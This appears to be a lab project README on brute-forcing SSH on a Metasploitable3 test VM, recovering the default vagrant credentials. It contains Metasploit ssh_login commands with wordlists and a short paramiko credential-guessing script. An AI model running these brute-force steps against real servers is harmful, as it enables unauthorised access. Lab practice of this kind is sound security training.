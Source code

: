 # Phase 1: SSH Service Compromise

## Overview
This phase demonstrates SSH brute force attacks against Metasploitable3 using both Metasploit framework and a custom Python script, successfully identifying vulnerable credentials.

## Attack Methods

### 1. Metasploit SSH Brute Force
**Configuration:**
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOST 192.168.56.102
set RPORT 22
set USER_FILE usernames.txt
set PASS_FILE passwords.txt
set THREADS 3
run
Output:

[*] 192.168.56.102:22 - Starting bruteforce
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
Key Findings:

Required absolute paths for credential files

Case-sensitive command requirements

Completed scan of target system

2. Custom Python Brute Force Script
Script: compromise.py

python
import paramiko

def attempt_login(hostname, port, username, password):
    try:
        client = paramiko.SSHClient()
        client.connect(hostname, port=port, 
                      username=username, 
                      password=password)
        print(f"[+] Success: {username}:{password}")
        return client
    except:
        print(f"[-] Failed: {username}:{password}")
        return None
Execution:

bash
python3 compromise.py
Output:

[+] Successfully logged in as vagrant:vagrant
Discovered Credentials:

Username: vagrant

Password: vagrant

Directory Structure
Phase1/
├── exploits/
│   ├── compromise.py
│   └── metasploit_commands.txt
├── wordlists/
│   ├── usernames.txt
│   └── passwords.txt
└── evidence/
    ├── metasploit_scan.log
    └── successful_login.txt
Requirements
Metasploit Framework

Python 3.x

Paramiko library (pip install paramiko)
